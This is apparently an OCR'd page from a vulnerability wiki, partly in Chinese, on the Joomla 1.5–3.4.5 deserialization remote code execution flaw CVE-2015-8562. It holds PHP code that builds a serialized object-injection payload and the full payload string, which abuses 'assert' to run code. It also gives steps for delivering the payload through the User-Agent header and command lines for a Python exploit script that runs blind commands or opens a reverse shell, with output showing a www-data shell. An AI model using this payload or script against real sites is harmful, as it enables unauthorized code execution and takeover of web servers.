     $a = new JDatabaseDriverMysqli();
    $poc = serialize($a); 

    $poc = str_replace("\x00*\x00", '\\0\\0\\0', $poc);

    echo "123}__test|{$poc}\xF0\x9D\x8C\x86";

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2015-8562)Joomla3.4.5反序列化漏洞/media/rId25.png)

    123}__test|O:21:"JDatabaseDriverMysqli":3:{s:4:"\0\0\0a";O:17:"JSimplepieFactory":0:{}s:21:"\0\0\0disconnectHandlers";a:1:{i:0;a:2:{i:0;O:9:"SimplePie":5:{s:8:"sanitize";O:20:"JDatabaseDriverMysql":0:{}s:5:"cache";b:1;s:19:"cache_name_function";s:6:"assert";s:10:"javascript";i:9999;s:8:"feed_url";s:37:"phpinfo();JFactory::getConfig();exit;";}i:1;s:4:"init";}}s:13:"\0\0\0connection";i:1;}?

将生成好的POC作为User-Agent，带上第一步获取的Cookie发包，这一次发包，脏数据进入Mysql数据库。然后同样的包再发一次，我们的代码被执行：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2015-8562)Joomla3.4.5反序列化漏洞/media/rId26.png)

### poc

Blind RCE:

    python joomla-cve-2015-8562.py -t http://<target_ip>/ --cmd
    $ touch /tmp/test

Spawn Reverse Shell:

    python joomla-cve-2015-8562.py -t http://<target_ip>/ -l <local_ip> -p <local_port>
    [-] Attempting to exploit Joomla RCE (CVE-2015-8562) on: http://<target_ip>/
    [-] Uploading python reverse shell
    <Response [200]>
    [+] Spawning reverse shell....
    <Response [200]>
    Listening on [0.0.0.0] (family 0, port 1337)
    $ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    #!/usr/bin/python

    # Exploit Title: Joomla 1.5 - 3.4.5 Object Injection RCE
    # Date: 15/09/2017
    # Author: Gary@ Sec-1 ltd
    # Modified: Andrew McNicol BreakPoint Labs (@0xcc_labs)
    # Modified: Paolo Stagno (@Void_Sec) - https://voidsec.com
    # Vendor Homepage: https://www.joomla.org/
    # Software Link: http://joomlacode.org/gf/project/joomla/frs/
    # Version: Joomla 1.5 - 3.4.5
    # Tested on: Debian 3.2.89-2 x86_64 GNU/Linux (Joomla! 3.2.1 Stable)
    # CVE : CVE-2015-8562
